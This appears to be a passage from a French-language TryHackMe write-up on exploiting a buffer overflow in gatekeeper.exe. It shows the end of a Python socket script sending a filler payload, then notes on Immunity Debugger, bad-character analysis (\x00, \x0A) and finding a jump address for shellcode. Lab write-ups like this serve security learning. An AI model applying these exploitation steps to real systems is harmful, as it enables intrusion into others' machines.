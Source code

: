 ```python
    connect=s.connect((address,port))
    s.send(filler + '\r\n')
except:
    print '[!] Unable to connect to the application. You may have crashed it.'
    sys.exit(0)
finally:
    s.close()
```

A partir ici je n'arrive plus à utiliser wine le débogueur plante.    

Je vais utiliser Immunity Debugger sous windows.  

On install Immunity.
On met gatekepeer.exe, si il se lance pas installer vc_redist.86.exe    
Si y des problème de réseaux désactiver le pare feu de windows. \(Utilisez un VM windows\)   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python exploit.py 
```

On lance l'exploit.  

![windows1](./Task1-01.png)

On fait follow dump sur esp. 

On remarque \\x00 est un caractère interdit car caractère fin de chaîne et que \\x0A est aussi interdit car dans le dump sa valeur à été modifier par \\x00.    

Maintenant il faut trouver l'adresse pour sauter sur notre shell code.   
